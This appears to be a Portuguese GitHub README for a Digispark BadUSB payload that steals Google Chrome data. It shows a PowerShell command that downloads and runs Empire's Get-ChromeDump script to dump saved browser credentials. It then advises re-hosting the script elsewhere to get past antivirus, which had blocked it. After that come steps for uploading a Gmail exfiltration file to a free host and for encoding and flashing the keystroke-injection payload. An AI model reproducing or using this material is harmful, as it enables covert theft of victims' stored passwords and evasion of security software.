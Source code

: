# Esse projeto parece não estar mais funcionando devido ao antivirus
PS C:\WINDOWS\system32> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1'); Get-ChromeDump -OutFile 'C:\l\ChromeDump.txt'
IEX : No linha:1 caractere:1
+ Function Get-ChromeDump{
+ ~~~~~~~~~~~~~~~~~~~~~~~~
Este script contém conteúdo mal-intencionado e foi bloqueado pelo software antivírus.
No linha:1 caractere:1
+ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubuser ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand

Get-ChromeDump : O termo 'Get-ChromeDump' não é reconhecido como nome de cmdlet, função, arquivo de script ou programa
operável. Verifique a grafia do nome ou, se um caminho tiver sido incluído, veja se o caminho está correto e tente
novamente.
No linha:1 caractere:162
+ ... module_source/collection/Get-ChromeDump.ps1'); Get-ChromeDump -OutFil ...
+                                                    ~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Get-ChromeDump:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
    
# tente baixar o arquivo Get-ChromeDump.ps1 e upar em outro servidor, depois aponte para o servidor onde ele foi upado


# Usando o digispark para exfiltrar dados do google chrome
this is a modified version from: https://github.com/cubidalsphere/Rubber-Ducky
you need to use https://github.com/mame82/duck2spark to encode digispark's payload

---

# vamos lá... 
para começar, vc precisa usar o duckencode e depois o duck2spark do mame82 (github mame82)

primeiro upa o arquivo referente à conexão com o gmail em algum free host... e configura ele tbm (né)

depois pega o payload .duck e usa o duckencoder (ta no git do mame82) nele:

**cat ~/payload.duck | python duckencoder.py -p -l br > inject.bin**

depois vc precisa usar o duck2spark (ta no git do mame82):

**./duck2spark.py -i inject.bin -l 1 -f 2000 -o inject.ino**

agora vc já tem o arquivo .ino é só subir pro digispark usando a IDE do arduino... (tem que baixar os drivers do digispark e tbm baixar a lib dele na ide do arduino)

se depois de tudo isso vc ainda não conseguir um payload funcional, esquece e vai estudar um pouco sobre arduino e HID antes de tentar isso...

[![VIDEO USANDO O DIGISPARK](https://static.makeuseof.com/wp-content/uploads/2015/12/youtube-player-670x335.jpg)](https://www.youtube.com/watch?v=py2dDVzWSw4)
